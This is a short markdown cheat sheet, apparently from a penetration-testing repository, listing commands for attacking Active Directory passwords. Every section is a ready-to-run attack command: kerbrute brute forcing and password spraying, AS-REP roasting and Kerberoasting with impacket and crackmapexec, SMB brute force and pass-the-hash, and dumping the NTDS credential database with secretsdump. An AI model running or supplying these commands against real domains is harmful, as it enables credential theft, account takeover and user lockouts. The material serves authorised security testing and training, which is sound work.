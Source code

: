 # Passwords
## Kerberos
Find users with brute force - WILL LOCKOUT USER:
`kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> <USER>`

Check a password for userlist:
`kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> <PASS>`

AS-REP (AS-REP Roasting):
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/ -usersfile <USERLIST>` 
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request`
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --asreproast <OUTPUT>`

TGS-REP (Kerberoasting):
`impacket-GetUserSPNs -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request`
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --kerberoasting <OUTPUT>`

## NetBIOS & SMB
Brute force passwords - WILL LOCKOUT USER:
`crackmapexec smb <IP> -u <USER> -p <PASSLIST>`
`crackmapexec smb <IP> -u <USER> -H <HASHES>`

Check password for users in list:
`crackmapexec smb <IP> -u <USERLIST> -p <PASS>`

If you have admin rights. Dump NTDS file:
`impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'`

Change password user:
`smbpasswd -U <USER> -r <DC_IP>`